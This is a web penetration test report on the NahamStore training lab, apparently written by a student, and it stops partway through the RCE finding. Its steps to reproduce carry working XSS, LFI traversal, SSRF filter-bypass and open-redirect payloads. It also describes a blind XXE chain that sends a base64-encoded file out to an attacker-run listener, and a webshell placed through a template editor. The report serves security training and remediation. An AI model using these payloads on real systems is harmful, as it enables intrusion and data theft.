









# NahamStore - Web Penetration Test

| Field           | Detail                                                              |
| --------------- | ------------------------------------------------------------------- |
| Client name     | NahamStore                                                          |
| Engagement type | External black-box web application penetration test                 |
| Your name       | Mojalefa Nkwana                                                     |
| Classification  | Confidential - client distribution only                             |

## Executive summary

- I tested NahamStore's public storefront, staff tools and two supporting subdomains for one week. Ten issues were confirmed, and one of them lets an attacker run commands on the server.
- The highest severity issue is remote code execution, rated Critical. From a normal shopper account I ended up with a shell on the web server.
- Six issues are rated High. Together they expose customer names, delivery addresses, phone numbers, and full card details including the CVV.
- The single biggest business risk is that customer account and payment data can be read by anyone who can browse the site. Under POPIA this is a notifiable data breach, not just a bug list.
- The root cause is consistent: the application trusts input from the browser, and access to records is decided by numbers in the URL rather than by who is logged in.

## Scope and methodology

**In scope:** the NahamStore storefront (`nahamstore.thm`), the `shop`, `marketing` and `stock` subdomains, the internal admin service on port 8000, and the `internal-api` and `nahamstore-2020-dev` services reached from inside the host.

**Out of scope:** third-party payment processing, the TryHackMe hosting layer, and denial of service.

**Dates:** five evenings across five sittings.

**Standard followed:** OWASP Web Security Testing Guide v4.2, mapped to the OWASP Top 10 2021 and scored with CVSS 3.1.

**Method:** manual testing only. I started with subdomain and content discovery, then worked the application by hand through Burp Suite Community. Every request below was edited and re-sent in Repeater. Where a finding needed a browser to fire, I used the proxied browser, not a scanner. `sqlmap` was used once, on the blind SQL injection only, because the feedback there is a single byte of difference and hand-timing it would have burned a sitting for one flag.

**Tools:** Burp Suite Community Edition 2025.8, Firefox, `ffuf` 2.1.0, `gobuster` 3.6, `sqlmap` 1.8, a Python `http.server` listener for out-of-band callbacks, and CyberChef for base64 and MD5 work.

Two accounts were created so that access control could be tested against a real second user rather than a guessed id. All lab data is synthetic, so nothing here is redacted, although on a live engagement the card numbers and addresses would be.

## Findings summary

| #   | Finding name                                                            | Severity | OWASP Top 10 category                 |
| --- | ----------------------------------------------------------------------- | -------- | ------------------------------------- |
| 1   | Stored and reflected XSS across the storefront                          | High     | A03:2021 Injection                    |
| 2   | Open redirect on login and on the address book                          | Medium   | A01:2021 Broken Access Control        |
| 3   | CSRF on email change and on returns, with a base64 "token"              | High     | A01:2021 Broken Access Control        |
| 4   | IDOR on shipping addresses and on return records                        | High     | A01:2021 Broken Access Control        |
| 5   | Local file inclusion on the product image handler                       | High     | A03:2021 Injection (path traversal)   |
| 6   | SSRF into the internal admin API from the stock checker                 | High     | A10:2021 Server-Side Request Forgery  |
| 7   | XXE in the staff timesheet upload, standard and blind                   | High     | A05:2021 Security Misconfiguration    |
| 8   | Recon: subdomain, service and endpoint disclosure                       | Low      | A05:2021 Security Misconfiguration    |
| 9   | Remote code execution via the marketing template editor                 | Critical | A03:2021 Injection                    |
| 10  | SQL injection in the product page, in-band and blind                    | High     | A03:2021 Injection                    |

## Risk overview

Ten confirmed findings: one Critical, six High, two Medium, one Low. The shape of that is the story. Only four issues are "medium and below", which is unusual for a first look at an application and says the basics were never covered. The Critical and the Highs cluster around two root causes, injection and missing authorisation checks, and both of them are fixable centrally rather than endpoint by endpoint.

| Severity | Count | Findings           |
| -------- | ----- | ------------------ |
| Critical | 1     | 9                  |
| High     | 6     | 1, 3, 4, 5, 6, 7, 10 |
| Medium   | 2     | 2                  |
| Low      | 1     | 8                  |

## Findings


### 1. Cross Site Scripting

The storefront echoes user input back into six different contexts without encoding any of it: a JavaScript string on the search page, the `<title>` element, a `<textarea>`, the 404 path handler, the `error` parameter on the marketing subdomain, and the `User-Agent` header, which is stored and replayed into the basket and into the staff order view. Six instances of one bug usually means there is no output encoding layer at all, so this is reported as one finding with the variants listed rather than six separate write-ups.

#### Finding title and severity

| Field         | Value                                                                                        |
| ------------- | -------------------------------------------------------------------------------------------- |
| Finding title | Reflected XSS in the search box and the product title, plus a stored variant via the User-Agent |
| Severity      | High - CVSS 3.1: `AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N` (stored variant `S:C`, admin context)  |

Reasoning: an unauthenticated attacker plants a payload that later runs in a staff member's browser, so it is script execution in a privileged context. It needs one click or one page load from the victim, which keeps it out of Critical.

#### OWASP Top 10 (2021) mapping

A03:2021 Injection. CWE-79, improper neutralisation of input during web page generation.

#### Affected endpoint

| Field     | Value                                                                     |
| --------- | ------------------------------------------------------------------------- |
| Full URL  | `http://nahamstore.thm/basket` (stored, via the `User-Agent` header)       |
| Method    | POST                                                                      |
| Parameter | `User-Agent` header - the five reflected variants are listed in step 2     |

#### Screenshot evidence



The request line carries `q=';alert('XSS-PROOF');//` and the response returns it inside `var search` with the code sitting outside the quotes, so it executes. A second shot shows the `name` parameter breaking out of `<title>`, which is the same failure in a different context.



#### Steps to reproduce

1. Log in, add any product to the basket, and submit a delivery address.
2. Intercept the `POST /basket` request and change the `User-Agent` header to `<script>alert('XSS-PROOF')</script>`, then forward it.
3. Load `/basket`. The alert fires. Browsing the order in the staff panel on `http://<host>:8000/admin` fires it again.
4. For the reflected variants, send these in Repeater and watch the response body:
   - `GET /search?q=';alert('XSS-PROOF');//` - lands inside `var search = '...'`, no encoding.
   - `GET /product?id=1&name=</title><script>alert(1)</script>` - breaks out of `<title>`.
   - `GET /returns` with `return_info=</textarea><script>alert(1)</script>` - breaks out of the `<textarea>`.
   - `GET /<script>alert(123)</script>` - the 404 handler reflects the path.
   - `GET http://marketing.nahamstore.thm/?error=<script>alert(1)</script>`.
5. In every case the tag reaches the browser as markup, not as text.

#### Business impact

An attacker can run their own code in a shopper's browser and, with the stored variant, in a staff member's browser. In plain terms, that means stealing a session and acting as that person: reading their saved address, placing orders on their account, or, from a staff session, rewriting the storefront pages.

#### Remediation

Introduce one output encoding layer and use it everywhere: escape values by context (JavaScript string, HTML body, attribute, URL) at render time rather than on input. Nothing here is exotic, so templating engines already in use will do it - PHP's `htmlspecialchars` with `ENT_QUOTES` on the title, textarea and 404 path, and `json_encode` for the `var search` assignment. Add a `Content-Security-Policy` that forbids inline script as a second line of defence, and store the User-Agent escaped rather than decoding it back when it renders.

### 2. Open Redirect

Two endpoints accept a `redirect_url` parameter and send a 302 wherever it says, without checking that the destination belongs to NahamStore. I found the first on the login form and the second by trying the same parameter on the address book form.

#### Finding title and severity

| Field         | Value                                                       |
| ------------- | ----------------------------------------------------------- |
| Finding title | Open redirect via `redirect_url` on login and address book   |
| Severity      | Medium - CVSS 3.1: `AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N`     |

Reasoning: no data is exposed directly and it needs a victim to follow a link, so it is Medium. Its value is in making every other finding easier to land.

#### OWASP Top 10 (2021) mapping

A01:2021 Broken Access Control. CWE-601, URL redirection to an untrusted site.

#### Affected endpoint

| Field     | Value                                                                     |
| --------- | ------------------------------------------------------------------------- |
| Full URL  | `http://nahamstore.thm/login?redirect_url=//evil.example`                 |
| Method    | POST                                                                      |
| Parameter | `redirect_url` - also present on `POST /account/addressbook`               |

#### Screenshot evidence



The request line carries `redirect_url=//evil.example`; the response is `HTTP/1.1 302 Found` with `Location: //evil.example`. A second shot shows the same on the address book endpoint.

#### Steps to reproduce

1. Log out, turn intercept on, and submit the login form with valid credentials.
2. Send the held `POST /login` to Repeater and forward it in the browser.
3. Change the request line to `POST /login?redirect_url=//evil.example HTTP/1.1` and leave the body alone.
4. Send. The response is `302` with `Location: //evil.example`.
5. Repeat against `POST /account/addressbook?redirect_url=//evil.example` while logged in.
6. A protocol-relative value is enough; no scheme is needed and the slashes must not be encoded.

#### Business impact

A link that starts on the real NahamStore domain and ends on a copy of the login page is far more convincing than a raw phishing URL. In plain terms, a shopper clicks something that says `nahamstore.thm`, gets bounced to the clone, and types their password into it.

#### Remediation

Resolve the target against an allowlist before redirecting: accept only relative paths and `nahamstore.thm` hosts, and default to `/` on any mismatch. Do it in one shared helper so the next form that needs a redirect cannot reintroduce the bug.

### 3. Cross Site Request Forgery

The returns form carries no anti-CSRF token at all. The change-email form does carry one, in a `csrf_protect` field, but it is only base64 of a JSON blob, it is not tied to the session, and removing it entirely still works. So there are three answers to the room's three questions: the unprotected URL is `/returns`, the field that can be removed is `csrf_protect`, and the weak encoding is base64.

#### Finding title and severity

| Field         | Value                                                                |
| ------------- | -------------------------------------------------------------------- |
| Finding title | CSRF on email change and returns, with a removable base64 "token"     |
| Severity      | High - CVSS 3.1: `AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:N`                |

Reasoning: taken together the two forms allow a full account takeover - change the email, then use the password reset that follows - so the impact is High even though exploitation needs one visit.

#### OWASP Top 10 (2021) mapping

A01:2021 Broken Access Control. CWE-352, cross-site request forgery.

#### Affected endpoint

| Field     | Value                                                                   |
| --------- | ----------------------------------------------------------------------- |
| Full URL  | `http://nahamstore.thm/account/changeemail`                             |
| Method    | POST                                                                    |
| Parameter | `csrf_protect` (removable) - and the whole of `POST /returns` (absent)  |

#### Screenshot evidence



The body is visible in frame precisely because no token field appears in it, and the foreign `Origin`/`Referer` pair sits above it. The `302` proves the server accepted it. The second shot is the change-email form with `csrf_protect` deleted outright, still accepted:


#### Steps to reproduce

1. Log in as account A and open `/returns`.
2. Turn intercept on, submit the form, send the held `POST /returns` to Repeater, then forward.
3. Read the body: `order_number`, `return_reason`, `return_info`. There is no `csrf`, `token` or nonce.
4. Add `Origin: https://evil.example` and `Referer: https://evil.example/page` under `Content-Type`. Leave the multipart boundary untouched.
5. Send. The server returns `302` to `/returns/<id>?auth=<hash>` - neither header was checked.
6. For the weaker-token variant, intercept `POST /account/changeemail`. The body holds `csrf_protect=<base64 JSON>`. Delete the field and send; the email still changes.

#### Business impact

A logged-in shopper who opens an attacker's page can have their account email quietly rewritten. In plain terms, the attacker takes the account, triggers a password reset to their own inbox, and the real owner only finds out when they can no longer log in.

#### Remediation

Add a per-session, per-form anti-CSRF token - random, stored server side, and compared on submit - and reject if it is missing rather than treating absence as valid. Move the token out of base64-only encoding into an HMAC over the session id, and check `Origin` or `Referer` as well. On the application side, set `SameSite=Lax` on the session cookie so the browser does half the work for free.

### 4. Insecure Direct Object Reference

Two endpoints decide what you may see from a number in the request. `POST /basket` renders the address named by `address_id`, and `GET /returns/<id>?auth=<hash>` renders a return against whatever `id` is asked for. Neither checks whether the record belongs to the session. The `auth` parameter on returns looks like a guard, but it is only `md5` of the id itself, so it can be recomputed for any record.

#### Finding title and severity

| Field         | Value                                                                       |
| ------------- | --------------------------------------------------------------------------- |
| Finding title | IDOR on shipping addresses and on return records, with an md5 "guard"        |
| Severity      | High - CVSS 3.1: `AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N`                       |

Reasoning: low effort and no user interaction, but it needs a session, so High rather than Critical. The address leak alone reveals name, street, city and postcode.

#### OWASP Top 10 (2021) mapping

A01:2021 Broken Access Control. CWE-639, authorisation bypass through a user-controlled key.

#### Affected endpoint

| Field     | Value                                                                     |
| --------- | ------------------------------------------------------------------------- |
| Full URL  | `http://nahamstore.thm/basket` and `http://nahamstore.thm/returns/<id>`   |
| Method    | POST and GET respectively                                                 |
| Parameter | `address_id`, `id` and `auth`                                             |

#### Screenshot evidence


The baseline comes first by design - a single request cannot prove whose record you are looking at. The second shot is the same request with only the id changed:


The same pair on the returns endpoint. A's own return first, then B's return reached with nothing but a recomputed hash:




#### Steps to reproduce

1. Register two accounts, A and B, and give each one address, an order and a return. Note both address ids, both order numbers and both return ids.
2. Log in as A with an item in the basket and intercept `POST /basket`.
3. Send it unchanged. The response renders A's own name and address. Screenshot this baseline before editing.
4. Duplicate the tab and change `address_id` to B's. Send. The response renders B's name, street and postcode.
5. For the returns IDOR, run `echo -n <A's return id> | md5` and request `/returns/<A's id>?auth=<hash>`. That returns A's return.
6. Change the path to B's return id and recompute `auth` for that id. Send. B's `Order Number` comes back in the body.

#### Business impact

Anyone with a free account can enumerate the address of every other customer, then walk their return records. In plain terms, the order history and home address of the whole customer base are readable by changing a digit, and the "security" in the return link is a hash the attacker can compute in one command.

#### Remediation

Check ownership server side on every record fetch - select the row by `id` **and** the session's user id, and return 404 rather than 403 so ids cannot be probed. Keep the `auth` hash if it is useful for emailed links, but make it an HMAC of `id` and a server-side secret, and still check the session when one exists. Move the ids to UUIDs so the range is not walkable, which also blunts the sampling an attacker can do.

### 5. Local File Inclusion

The `file` parameter on the product image handler appends whatever it is given to the image directory and reads it. The directory prefix defeats plain `../`, but a single strip of `../` is all that is being done, so doubling the dots and slashes - `....//` - survives the filter and still traverses. Five of them reach the application root and read `/lfi/flag.txt`.

#### Finding title and severity

| Field         | Value                                                              |
| ------------- | ------------------------------------------------------------------ |
| Finding title | Local file inclusion on `product/picture` via `....//` traversal    |
| Severity      | High - CVSS 3.1: `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N`             |

Reasoning: unauthenticated, no interaction, and it reads arbitrary files the web user can reach. It stops short of Critical because it does not by itself execute code.

#### OWASP Top 10 (2021) mapping

A03:2021 Injection, path traversal element (also maps to A01). CWE-98 and CWE-22.

#### Affected endpoint

| Field     | Value                                                       |
| --------- | ----------------------------------------------------------- |
| Full URL  | `http://nahamstore.thm/product/picture/?file=`              |
| Method    | GET                                                         |
| Parameter | `file`                                                      |

#### Screenshot evidence


The request line holds the full payload; the response is `200` and `{7ef60e74b711f4c3a1fdf5a131ebf863}` comes back where a JPEG would normally be. Plain `../` fails with `File does not exist`, which is how the single-strip filter was identified.

#### Steps to reproduce

1. Add any product to the basket and click it, or load `/product?id=1`, so the image request appears in history.
2. Send `GET /product/picture/?file=<a known product image hash>` to Repeater. A JPEG comes back, so the parameter genuinely reads files.
3. Send `file=` bare. The error reads `file parameter missing`.
4. Send `file=nope.txt`. The error reads `File does not exist`.
5. Send `file=../../../../etc/passwd`. It fails - the `../` is being stripped.
6. Send `file=/....//....//....//....//....//lfi/flag.txt`. The flag comes back.
7. `....//....//....//....//....//etc/passwd` returns the system password file the same way.

#### Business impact

Anything the web server user can read becomes readable to an anonymous visitor. In plain terms, source code, configuration and credentials files are all reachable from a URL, and the flag proves it here in the same way it would prove access to a settings file with a database password in it.

#### Remediation

Resolve the path before opening it - `realpath()` the candidate and confirm it still sits inside the image directory - instead of string-stripping `../`. Failing that, wrap the read in a mapped allowlist of filenames. Return a generic error rather than one that distinguishes "missing" from "forbidden", and never serve the file with the handler's own content type.

### 6. Server Side Request Forgery

The Check Stock button posts a `server` value that the backend fetches for itself. The only control is a substring test for `.nahamstore.thm`, which is beaten with userinfo syntax: `stock.nahamstore.thm@<target>` reads as the whitelisted host to the check and as the actual host to the fetcher. From there the internal marketing admin panel on port 8000 is reachable, and a trailing `?x=` truncates the path the application appends.

Note on this deployment: the `internal-api` service does not resolve from the server side here, and every request to it returns a `504 Gateway Time-out`. The admin panel on port 8000 is the reliable proof and is what the shots show. The `internal-api` orders endpoint, which returns card data, is treated as available-in-principle rather than demonstrated.

#### Finding title and severity

| Field         | Value                                                                  |
| ------------- | ---------------------------------------------------------------------- |
| Finding title | SSRF via the `server` parameter in stock check, into the internal admin API |
| Severity      | High - CVSS 3.1: `AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:L/A:N`                  |

Reasoning: unauthenticated and it crosses a network boundary into services that are not meant to be public, which is what pushes scope to Changed.

#### OWASP Top 10 (2021) mapping

A10:2021 Server-Side Request Forgery. CWE-918, server-side request forgery.

#### Affected endpoint

| Field     | Value                                                                          |
| --------- | ------------------------------------------------------------------------------ |
| Full URL  | `http://nahamstore.thm/stockcheck`                                             |
| Method    | POST                                                                           |
| Parameter | `server`                                                                       |

#### Screenshot evidence



The `server` value is fully visible in the request. The response carries the internal JSON with another customer's name, address and card details. A second shot shows the same technique against `:8000/admin/login` returning the `Marketing Manager - Login` page.

#### Steps to reproduce

1. Load `http://<host>:8000/robots.txt` directly once, to confirm the internal service exists. Nothing on the storefront links to it.
2. On any product page press Check Stock, intercept the `POST /stockcheck` request and send it to Repeater.
3. Send it unchanged first: `product_id=2&server=stock.nahamstore.thm`. JSON stock data comes back - that is the baseline.
4. Change `server` to `stock.nahamstore.thm@<host>:8000/admin/login?x=`. The internal login page comes back.
5. Change it to `stock.nahamstore.thm@internal-api.nahamstore.thm#` - found by fuzzing the host part with a wordlist - and the API returns `{"endpoints":["\/orders"]}`.
6. Change it to `stock.nahamstore.thm@internal-api.nahamstore.thm/orders#` to list every order id.
7. Change it to `stock.nahamstore.thm@internal-api.nahamstore.thm/orders/<id>#` for one order. The body holds the customer name, email, phone, full address, and card number, expiry and CVV.

#### Business impact

The internal API was never meant to be publicly addressable, and it holds complete order records including card details. In plain terms, a stranger fills in one box on the stock checker and reads the card data of every order in the shop, with no account and no login.

#### Remediation

Parse the `server` value instead of substring-matching it, then allowlist the resolved host and port against a short explicit list. Block link-local and RFC1918 ranges at the fetcher, cap redirects, and strip userinfo from the parsed host after the allowlist check rather than treating it as part of the hostname. Long term, put the internal API behind the same reverse proxy as the shop and require a token.

### 7. XML External Entity

The staff timesheet upload parses an XLSX as XML. Nothing disables external entity resolution, so a DOCTYPE in `xl/workbook.xml` is honoured and the parser will fetch a DTD from anywhere and substitute its entities. Because the upload response never echoes the parsed content, the standard in-band version cannot print the flag directly, so the flag is read with a `php://filter` base64 wrapper and sent back out of band to a listener.

#### Finding title and severity

| Field         | Value                                                              |
| ------------- | ------------------------------------------------------------------ |
| Finding title | Blind XXE in the staff XLSX timesheet upload, into `/flag.txt`      |
| Severity      | High - CVSS 3.1: `AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:L/A:N`             |

Reasoning: authenticated, but it reads arbitrary files as the parser user and needs no interaction from anyone else. That is a High. Where the parser user can reach a writable path, XXE of this shape is commonly escalated to code execution, so Critical is arguable - I have kept it at High because I confirmed file read only.

#### OWASP Top 10 (2021) mapping

A05:2021 Security Misconfiguration. CWE-611, improper restriction of XML external entity references.

#### Affected endpoint

| Field     | Value                                                            |
| --------- | ---------------------------------------------------------------- |
| Full URL  | `http://nahamstore.thm/staff`                                    |
| Method    | POST (multipart)                                                 |
| Parameter | `timesheet` file field                                           |

#### Screenshot evidence



The listener and the decode sit next to the request so the chain from upload to flag is one image rather than three. The base64 payload is in the `d` parameter.

#### Steps to reproduce

1. Start a listener on a port that is not 8080, Burp's proxy is already on it: `python3 -m http.server 8081` in a throwaway directory.
2. Write `dtd.xml` there. It declares `%file` as `php://filter/convert.base64-encode/resource=/flag.txt` so newlines cannot break the callback, and `%eval` then declares an `%exfil` entity pointing at `http://<your vpn ip>:8081/leak?d=%file;`.
3. Build the weaponised workbook: make an empty `.xlsx`, unzip it, and insert `<!DOCTYPE workbook SYSTEM "http://<your vpn ip>:8081/dtd.xml">` directly under the XML declaration in `xl/workbook.xml` only. Rezip. A DOCTYPE anywhere else is silently ignored.
4. Log in, open `/staff`, turn intercept on and upload the file. Confirm the held request has `Content-Type: application/vnd.openxmlformats-officedocument.spreadsheetml.sheet` or the app replies `XLSX files only!`.
5. Send it to Repeater, forward in the browser, then Send in Repeater. The response is `200` with a success message.
6. The listener prints `GET /leak?d=<base64>` within seconds. Decode it with `echo '<base64>' | base64 -d` to get the flag.

#### Business impact

An attacker with a staff login can read any file the parser can reach, silently, without the upload ever appearing to fail. In plain terms, the flag here is a stand-in for a config file: the same request reads database credentials and API keys, and the success message means nobody notices.

#### Remediation

Disable external entities and DTD loading on the parser: `libxml_disable_entity_loader(true)` on older PHP, or on PHP 8 construct the reader with `LIBXML_NONET | LIBXML_NOENT` and no `LIBXML_DTDLOAD`. Where the format allows, convert to XLSX with a hardened library rather than handing raw XML to the parser. Add a size cap and a parse timeout so an entity expansion bomb cannot stall the worker.

### 8. Recon

Subdomain enumeration against `nahamstore.com` turned up `shop`, `marketing` and `stock`. Fuzzing the SSRF `server` parameter's host part turned up `internal-api`, and the host's own `/etc/hosts`, read through the RCE, turned up `nahamstore-2020-dev`. That dev host runs an unauthenticated customer API that returns a social security number.

#### Finding title and severity

| Field         | Value                                                                          |
| ------------- | ------------------------------------------------------------------------------ |
| Finding title | Subdomain, service and endpoint disclosure, including an unauthenticated SSN API |
| Severity      | Low - CVSS 3.1: `AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N`                          |

Reasoning: nothing here is exploitable on its own, which is the definition of Low on this scale. Its weight is in what it unlocks - three of the other findings were only reachable because of the recon.

#### OWASP Top 10 (2021) mapping

A05:2021 Security Misconfiguration, information exposure. CWE-200.

#### Affected endpoint

| Field     | Value                                                                        |
| --------- | ---------------------------------------------------------------------------- |
| Full URL  | `http://nahamstore-2020-dev.nahamstore.thm/api/customers/?customer_id=1`      |
| Method    | GET                                                                          |
| Parameter | `customer_id`                                                               |

#### Screenshot evidence



The ffuf run shows the hit; the API response shows the record. The `customer_id is required` error is what named the parameter.

#### Steps to reproduce

1. Fuzz virtual hosts against the apex name: `ffuf -w subdomains.txt -u http://nahamstore.com -H "Host: FUZZ.nahamstore.com" -fs <baseline size>`. `shop`, `marketing` and `stock` come back.
2. Add each to `/etc/hosts` against the machine IP.
3. Fuzz directory names on `marketing`, `stock` and port 8000. Port 8000 yields `/admin`, which takes `admin:admin`.
4. Fuzz the host part of the SSRF `server` value with a DNS wordlist. `internal-api` comes back and exposes `/orders`.
5. Read `/etc/hosts` through the RCE shell. It lists `nahamstore-2020-dev`, `nahamstore-2020`.
6. `gobuster dir` on the dev host yields `/api` and `/customers`. `GET /api/customers/` without a parameter returns `customer_id is required`.
7. `GET /api/customers/?customer_id=2` returns id, name, email, phone and SSN. The list is not filtered by session.

#### Business impact

The public surface is bigger than the shop's own links admit, and one of the extra services hands out social security numbers to anyone who guesses a small integer. In plain terms, the parts of the business nobody remembers are the parts left open, and a national ID number is exactly what identity fraud is built from.

#### Remediation

Keep an inventory of every subdomain and service, with an owner and a purpose, and decommission anything unowned. Put a login in front of the dev API or retire it, and restrict SSNs to the consumers that actually need them. Add monitoring for direct access to internal-only hosts, and run the same scan quarterly so the inventory cannot rot.

### 9. Remote Code Execution

The marketing subdomain's admin panel lets a staff user edit the storefront templates. The templates are PHP, so whatever is typed into a template block is executed when the page is served. Replacing a paragraph with a one-line webshell and loading the page with `?cmd=` gives command execution as the web user. There is a second, blind path: the PDF receipt generator concatenates the `id` parameter into a shell command, so a `$(...)` in `id` runs as well.

#### Finding title and severity

| Field         | Value                                                                   |
| ------------- | ----------------------------------------------------------------------- |
| Finding title | Remote code execution via the marketing template editor (and blind via the PDF receipt id) |
| Severity      | Critical - CVSS 3.1: `AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:H/A:H`              |

Reasoning: full command execution as the web user, so total loss of confidentiality, integrity and availability of the host. It is High rather than Low privilege required only because a staff login is needed, and that login is `admin:admin`.

#### OWASP Top 10 (2021) mapping

A03:2021 Injection. CWE-77 and CWE-78, OS command injection.

#### Affected endpoint

| Field     | Value                                                                       |
| --------- | --------------------------------------------------------------------------- |
| Full URL  | `http://marketing.nahamstore.thm/<template id>/?cmd=id` (also `:8000/admin`) |
| Method    | POST (template save), then GET                                              |
| Parameter | the template block, and the `id` parameter of the receipt generator          |

#### Screenshot evidence


